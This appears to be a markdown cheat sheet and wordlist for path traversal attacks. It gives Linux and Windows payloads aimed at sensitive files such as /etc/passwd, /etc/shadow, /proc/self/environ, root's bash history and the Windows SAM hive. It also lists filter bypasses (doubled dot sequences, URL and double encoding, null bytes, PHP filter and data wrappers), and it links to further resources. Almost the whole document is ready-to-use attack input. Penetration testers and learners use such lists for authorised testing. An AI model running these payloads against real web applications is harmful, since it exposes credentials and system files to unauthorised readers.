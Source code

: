 # Path Traversal Cheat Sheet

### Common Paths to read
```txt
/etc/passwd
/var/log/apache2/access.log
```
___
### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
1. Sequence block bypass >> ....//....//....//....//etc/passwd
2. Sequence block bypass2 >> ..//..//..//..//etc/passwd
3. Encoding ../ >> %2e%2e%2f
4. Absolute path >> /var/www/images/../../../etc/passwd
5. Absolute path2 >> /var/www/html/..//..//..//etc/passwd
6. Using null byte >> ../../../etc/passwd%00.png
7. Using PHP wrappers >> php://filter/convert.base64-encode/resource=/etc/passwd
8. Using Data wrappers >> data:text/plain,<?php%20phpinfo();%20?>

### File extension with null byte bypass
```
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
/var/www/images/../../../etc/passwd%00
/var/www/images/..//..//..//..//etc/passwd%00
/var/www/images/....//....//....//....//etc/passwd%00
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd%00
```
### Linux Path Traversal Payloads
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ

### Windows Path Traversal Payloads
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam

### URL Encoded Variants
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
### Wordlist
```txt
/etc/passwd
../../../etc/passwd
../../../../../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
..%252f..%252f..%252fetc/passwd
%2Fetc%2Fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2f%2e%2e%2f%2f%2e%2e%2f%2fetc%2e%2e%2fpasswd
/etc/passwd%00
../../../etc/passwd%00
..//..//..//..//etc/passwd%00
....//....//....//....//etc/passwd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
..%252f..%252f..%252fetc/passwd%00
%2Fetc%2Fpasswd%00
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00
../../../../etc/group
../../../../../../../../etc/passwd
../../../../../../../../etc/hosts
../../../../../../../../etc/shadow
../../../../../../../../proc/self/environ
../../../../../../../../var/mail/root
../../../../../../../../root/.bash_history
../../../../../../../../etc/apache2/apache2.conf
../../../../../../../../etc/mysql/my.cnf
../../../../../../../proc/version
../../../../../../../proc/cpuinfo
../../../../../../../proc/meminfo
../../../../../../../proc/self/cmdline
../../../../../../../proc/self/status
../../../../../../../proc/self/mounts
../../../../../../../proc/self/mountinfo
../../../../../../../proc/self/fd
../../../../../../../proc/self/environ
..\..\..\windows\win.ini
..\..\..\..\..\..\windows\win.ini
%5C%5C%2E%2E%5C%2E%2E%5Cwindows%5Cwin.ini
..%5C..%5C..%5Cwindows%5Csystem32%5Cdrivers%5Cetc%5Chosts
%2e%2e%5c%2e%2e%5cwindows%5csystem.ini
..%255c..%255c..%255cwindows%255cwin.ini
../../../../../../../../boot.ini
../../../../../../../../windows/system32/config/system
../../../../../../../../windows/system32/config/software
../../../../../../../../windows/system32/config/sam
../../../../../../../../windows/repair/sam
../../../../../../../../windows/repair/system
../../../../../../../../windows/win.ini
../../../../../../../../windows/system.ini
/../../../../../../../../boot.ini
/../../../../../../../../windows/win.ini
/../../../../../../../../windows/system.ini
/../../../../../../../../windows/system32/config/system
/../../../../../../../../windows/system32/config/software
/../../../../../../../../windows/system32/config/sam
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2fetc%2fpasswd
..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2fetc%2fshadow%00
%2fvar%2fwww%2fimages%2f..%2f..%2f..%2f..%2fetc%2fshadow%00
```
### External Cheat Sheet
https://github.com/JahTheTrueGod/Directory-Traversal-Cheat-Sheet
### To learn
https://tryhackme.com/r/room/filepathtraversal
